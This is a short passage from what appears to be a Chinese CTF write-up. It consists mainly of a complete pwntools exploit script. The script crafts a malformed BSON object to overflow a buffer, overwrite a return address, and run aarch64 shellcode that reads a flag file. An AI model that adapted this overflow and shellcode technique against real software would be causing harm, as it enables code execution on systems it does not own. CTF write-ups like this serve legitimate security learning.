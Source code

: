 [![](https://p1.ssl.qhimg.com/t01c71bafbd2fd0e3ee.png)](https://p1.ssl.qhimg.com/t01c71bafbd2fd0e3ee.png)

get flag~

[![](https://p4.ssl.qhimg.com/t01e0ae40140e432f49.png)](https://p4.ssl.qhimg.com/t01e0ae40140e432f49.png)



## Script

完整EXP

```
from pwn import *
import bson

context.arch = 'aarch64'

obj = `{`
    'CVC': 111,
    'MON': 11,
    'YR': 2021
`}`
bs = bson.dumps(obj)

bs = bs[:-1]
bs += b'\x02'
bs += b'CC'
bs += b'\x00'
bs += p32(0x10)
bs += b'A'*(0x18)
bs += p64(0xfc46)#ret addr

shellcode = '''ldr x0,=0x676c662f // /flg
mov x1, 0x0        // open mode
stp x0, x1, [sp]
mov x0, sp
mov x5, 0x340      // SYS_open
blr  x5

mov x1, 0xf940     // buf
mov x2, 0x36       // size
mov x5, 0x34c      // SYS_read
blr  x5

mov x0, 0xf940     // buf
mov x5, 0x310      // SYS_write
blr  x5'''

payload = asm(shellcode)
bs += payload + b'\x00'
bs += b'\x00'

#print(hexdump(bs))
print(b64e(bs)+' ')
```
